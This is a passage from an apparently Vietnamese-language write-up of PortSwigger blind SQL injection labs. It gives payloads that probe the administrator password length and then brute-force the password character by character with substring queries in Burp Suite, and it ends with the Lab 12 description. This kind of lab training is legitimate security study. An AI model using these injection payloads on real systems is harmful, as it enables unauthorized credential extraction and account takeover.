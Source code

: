EX:

![image](https://github.com/neo-M3tinez/Portswigger/assets/174318737/2ae80387-b410-454e-b6d0-088178f91804)

=> true = 1 còn false = 0

=> ta đã có thông tin về hành vi của trang web và lỗ hổng 


+ step 2: Exploit

  - tìm length của password

      c1: dùng brupsuite 
  
      - payload :
   
              'and (select 'a' from users where username = 'administrator' and length(password) > i) = 'a' --

      + i là số phải tìm có thể > 1 nhưng đến > 21 là false thì dùng => biết được số chứa kí tự trong password

   ![image](https://github.com/neo-M3tinez/Portswigger/assets/174318737/8a47545f-ed22-4915-affb-b6fa3201b2f2)

  => grep match là pin phần có trả về welcome back!

  ![image](https://github.com/neo-M3tinez/Portswigger/assets/174318737/a456bdc9-e07e-472e-a878-720ad451fc1f)


 => length của password = 19 

- final payload

              'and (select substring(password,1,1) from users where username = 'administrator') = '{c}' -- 

  - SUBSTR(substring)(expression, start, length): ví dụ nếu độ dài length mà ta cho là 19 => {c} sẽ brute force lâu hơn là setup start là từng kí tự

![image](https://github.com/neo-M3tinez/Portswigger/assets/174318737/dfbb823f-e00e-4846-a98e-f03a366a865b)

+ ta sẽ được string như thế này tiếp tục sẽ thành password

=> solve lab 11

# Lab 12: Blind SQL injection with conditional errors

> This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

> The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message.

> The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

> To solve the lab, log in as the administrator user.
